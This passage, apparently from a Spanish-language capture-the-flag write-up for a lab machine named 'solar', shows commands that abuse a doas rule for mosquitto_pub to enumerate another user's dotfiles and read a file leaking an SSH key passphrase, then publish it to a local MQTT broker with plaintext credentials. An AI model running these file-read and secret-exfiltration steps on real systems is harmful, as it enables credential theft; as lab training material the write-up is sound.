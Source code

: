 ```bash
www-data@solar:/tmp$ curl https://wiki.debian.org/DotFilesList 2> /dev/null | grep -oP '(?<=\<tt class="backtick">).*?(?=</tt>)' | sort | uniq  > dotfiles.txt
```

y buscamos si existe algún fichero de la lista dentro del home de lenam que podamos obtener.

```bash
www-data@solar:/tmp$ cat ./dotfiles.txt | tr '\n' '\0' | xargs -0 -I {} -P 50 bash -c '
    result=$(doas -u lenam /usr/bin/mosquitto_pub -f "/home/lenam/.local/nano/{}" 2>&1 | wc -l)
    if [ "$result" -eq 3 ]; then
        echo "** Folder {} $(ls -dlah {} 2>/dev/null)"
    elif [ "$result" -eq 97 ]; then
        echo "** File {} $(ls -lah {} 2>/dev/null)"
    fi
'
** File .bash_logout 
** File .bash_history 
** File .bashrc 
** Folder .gnupg/ 
** File .lesshst 
** Folder .local/
** File .nanorc 
** File .ssh/authorized_keys
```

Encontramos las carpetas `.gnupg/` y `.local/` donde podemos volver a pasar el escáner improvisado. También utilizamos otros diccionarios encontrados por internet, modificándolos si es necesario.

- https://github.com/bhavesh-pardhi/Wordlist-Hub/blob/main/WordLists/dotfiles.txt
- https://raw.githubusercontent.com/danielmiessler/SecLists/master/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt 

Encontramos el passphrase del `id_ed25519` del usuario lenam filtrado en el historial de búsquedas del editor nano en el fichero `/home/lenam/.local/share/nano/search_history`.

Lo enviamos al servidor MQTT:

```bash
doas -u lenam /usr/bin/mosquitto_pub -L mqtt://5up3r:bloods@localhost:1883/filtrate -f /home/lenam/.local/share/nano/search_history
```

![Passphrase filtrado](../../../assets/images/solar/image-15.png)
